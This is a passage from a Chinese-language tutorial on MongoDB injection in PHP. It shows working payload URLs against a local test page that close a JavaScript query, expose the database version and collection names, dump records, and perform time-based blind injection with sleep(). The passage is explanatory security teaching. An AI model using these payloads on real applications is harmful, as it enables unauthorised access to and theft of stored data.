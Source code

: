 ```
}
?>

```

攻击方式：

> http://127.0.0.1/1.php?username=test'&password=test

![enter image description here](http://drops.javaweb.org/uploads/images/5de695e1119bad5e270112cd2facca6e23aeb08b.jpg)

报错。 想办法闭合语句。

> http://127.0.0.1/1.php?username=test'});return {username:1,password:2}//&password=test

该语句能返回一个数组，username键值是1，password键值是2.

![enter image description here](http://drops.javaweb.org/uploads/images/7bb14008336d422021028dc99e0298600ef3863a.jpg)

爆mongodb版本

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.getCollectionNames()),password:2};//&password=test

爆所有集合名

PS:因为db.getCollectionNames()返回的是数组，需要用tojson转换为字符串。并且mongodb函数区分大小写。

![enter image description here](http://drops.javaweb.org/uploads/images/eaf5672793f26837069ed2dcbed90247ad1d5da3.jpg)

爆test集合的第一条数据

> http://127.0.0.1/1.php?username=test'});return {username:tojson(db.test.find()[0]),password:2};//&password=test

![enter image description here](http://drops.javaweb.org/uploads/images/4b89b712dbddf48f3d89b93875005d97870cf2c6.jpg)

爆test集合的第二条数据

![enter image description here](http://drops.javaweb.org/uploads/images/f33c6dc4a8c875202219d58d38250a14f0668104.jpg)

因为execute方法支持多语句执行，所以可以执行太多语句了，不演示~

当然，有时可能遇到没有输出返回数据，这时候怎么办呢？

在高版本下，添加了一个函数sleep()，就是时间盲注咯~

PS:在高版本下，貌似不能用注释语句，此外高版本还有一个新特性就是默认开启错误回显。笔者尝试没有注释成功，只能用闭合的方法。

> http://127.0.0.1/1.php?username=test'});if (db.version() > "0") { sleep(10000); exit; }var b=({a:'1&password=test

![enter image description here](http://drops.javaweb.org/uploads/images/5da4665603dab8f16da9d40a57f6b559193e95f1.jpg)

成功延时了十秒。

另一个demo

在Mongdb中可以使用$where操作符。相当于sql语句中的where限制语句。mongodb中的$where操作符常常引入一个js的函数来作为限制条件，当js函数中的字符串存在未过滤的用户输入时，注入就产生了。
